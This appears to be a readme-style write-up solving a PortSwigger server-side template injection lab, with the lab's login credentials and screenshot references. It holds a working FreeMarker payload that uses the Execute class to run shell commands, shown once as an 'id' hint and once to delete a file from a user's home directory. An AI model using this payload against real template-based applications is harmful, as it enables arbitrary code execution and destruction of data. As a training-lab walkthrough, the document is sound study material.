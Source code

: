# Server-side template injection using documentation

## This lab is vulnerable to [server-side template injection](https://portswigger.net/web-security/server-side-template-injection). To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

## You can log in to your own account using the following credentials:

`content-manager:C0nt3ntM4n4g3r`

---

### step 1

![screenshot](images/lab3_template_expression.jpg)

### step2

![screenshot](images/lab3_check_which_template.jpg)

### step3

### HINT: `<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("id)}`

`<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }`

![screenshot](images/lab3_template_execution_lab_solved.jpg)
